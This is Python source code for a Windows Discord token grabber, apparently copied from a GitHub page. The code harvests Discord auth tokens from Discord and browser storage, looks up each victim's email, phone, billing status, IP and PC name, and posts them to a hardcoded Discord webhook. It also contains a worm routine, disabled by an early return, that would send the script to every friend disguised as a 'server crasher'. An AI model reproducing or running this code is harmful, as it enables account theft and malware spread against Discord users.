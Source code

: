 import os
if os.name != "nt":
    exit()
from re import findall
from json import loads, dumps
from base64 import b64decode
from subprocess import Popen, PIPE
from urllib.request import Request, urlopen
from datetime import datetime
from threading import Thread
from time import sleep
from sys import argv
LOCAL = os.getenv("LOCALAPPDATA")
ROAMING = os.getenv("APPDATA")
PATHS = {
    "Discord"           : ROAMING + "\\Discord",
    "Discord Canary"    : ROAMING + "\\discordcanary",
    "Discord PTB"       : ROAMING + "\\discordptb",
    "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
    "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
    "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
    "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
}
def getheaders(token=None, content_type="application/json"):
    headers = {
        "Content-Type": content_type,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }
    if token:
        headers.update({"Authorization": token})
    return headers
def getuserdata(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
    except:
        pass
def gettokens(path):
    path += "\\Local Storage\\leveldb"
    tokens = []
    for file_name in os.listdir(path):
        if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
            continue
        for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
            for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                for token in findall(regex, line):
                    tokens.append(token)
    return tokens
def getdeveloper():
    dev = "wodx"
    try:
        dev = urlopen(Request("https://pastebin.com/raw/ssFxiejv")).read().decode()
    except:
        pass
    return dev
def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except:
        pass
    return ip
def getavatar(uid, aid):
    url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}.gif"
    try:
        urlopen(Request(url))
    except:
        url = url[:-4]
    return url
def gethwid():
    p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
    return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
def getfriends(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
    except:
        pass
def getchat(token, uid):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
    except:
        pass
def has_payment_methods(token):
    try:
        return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
    except:
        pass
def send_message(token, chat_id, form_data):
    try:
        urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
    except:
        pass
def spread(token, form_data, delay):
    return # Remove to re-enabled
    for friend in getfriends(token):
        try:
            chat_id = getchat(token, friend["id"])
            send_message(token, chat_id, form_data)
        except Exception as e:
            pass
        sleep(delay)
def main():
    cache_path = ROAMING + "\\.cache~$"
    prevent_spam = True
    self_spread = True
    embeds = []
    working = []
    checked = []
    already_cached_tokens = []
    working_ids = []
    ip = getip()
    pc_username = os.getenv("UserName")
    pc_name = os.getenv("COMPUTERNAME")
    user_path_name = os.getenv("userprofile").split("\\")[2]
    developer = getdeveloper()
    for platform, path in PATHS.items():
        if not os.path.exists(path):
            continue
        for token in gettokens(path):
            if token in checked:
                continue
            checked.append(token)
            uid = None
            if not token.startswith("mfa."):
                try:
                    uid = b64decode(token.split(".")[0].encode()).decode()
                except:
                    pass
                if not uid or uid in working_ids:
                    continue
            user_data = getuserdata(token)
            if not user_data:
                continue
            working_ids.append(uid)
            working.append(token)
            username = user_data["username"] + "#" + str(user_data["discriminator"])
            user_id = user_data["id"]
            avatar_id = user_data["avatar"]
            avatar_url = getavatar(user_id, avatar_id)
            email = user_data.get("email")
            phone = user_data.get("phone")
            nitro = bool(user_data.get("premium_type"))
            billing = bool(has_payment_methods(token))
            embed = {
                "color": 0x7289da,
                "fields": [
                    {
                        "name": "**Account Info**",
                        "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                        "inline": True
                    },
                    {
                        "name": "**PC Info**",
                        "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                        "inline": True
                    },
                    {
                        "name": "**Token**",
                        "value": token,
                        "inline": False
                    }
                ],
                "author": {
                    "name": f"{username} ({user_id})",
                    "icon_url": avatar_url
                },
                "footer": {
                    "text": f"Token Grabber By Astraa",
                }
            }
            embeds.append(embed)
    with open(cache_path, "a") as file:
        for token in checked:
            if not token in already_cached_tokens:
                file.write(token + "\n")
    if len(working) == 0:
        working.append('123')
    webhook = {
        "content": "",
        "embeds": embeds,
        "username": "Discord Token Grabber",
        "avatar_url": "https://discordapp.com/assets/5ccabf62108d5a8074ddd95af2211727.png"
    }
    try:
        urlopen(Request("https://discordapp.com/api/webhooks/943284307512942603/U6CIkDFjR4XHntRfWn0xl_GDXKye4jYb_LvIlNYbBzIGU336XUfovdULjyPhjac1QsR6", data=dumps(webhook).encode(), headers=getheaders()))
    except:
        pass
    if self_spread:
        for token in working:
            with open(argv[0], encoding="utf-8") as file:
                content = file.read()
            payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nserver crasher. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
            Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
try:
    main()
except Exception as e:
    print(e)
    pass
